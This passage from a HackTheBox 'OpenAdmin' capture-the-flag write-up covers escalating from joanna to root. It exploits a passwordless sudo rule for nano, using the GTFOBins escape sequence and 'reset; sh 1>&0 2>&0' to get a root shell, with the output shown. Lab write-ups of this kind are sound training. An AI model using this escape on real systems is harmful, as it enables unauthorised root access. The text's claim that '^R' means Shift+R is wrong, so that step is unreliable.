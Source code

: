 ## Privesc: `joanna` to `root`

Given how much we have done so far - for an easy machine - I guessed the final privesc would be simple. Checked `sudo` configuration and was not disappointed!

```none
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Started `nano` using `sudo`.

```none
sudo /bin/nano /opt/priv
```

As per the advice on [GTFObings on `nano`](https://gtfobins.github.io/gtfobins/nano/) we should be able to escape `nano` and get a shell as `root`. This is pretty easy - considering what we have done so far!

```none
^R^X
reset; sh 1>&0 2>&0
```

For those who don't know, `^R` means Shift + R. So press `Shift + R`, then press `Shift + X`, then enter the command to escape `nano` and get a shell.

```none
Command to execute: reset; sh 1>&0 2>&0# id                                                                         
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Manual enumeration can sometimes be king! This entire machine was achievable by enumeration of the services running on the box. Remember this for the future.
- Stick to the methodology. If tired, come back and try again later. Moving fast and changing multiple things at once never works!
- Stop re-writing exploits when they already work! Jokes! This is a good experience but takes a long time. You will not always have an hour spare!

## Useful Resources

- [HackTheBox - OpenAdmin by ippsec](https://www.youtube.com/watch?v=fdD-JTlkd3k)
- [HTB: OpenAdmin by 0xdf](https://0xdf.gitlab.io/2020/05/02/htb-openadmin.html)
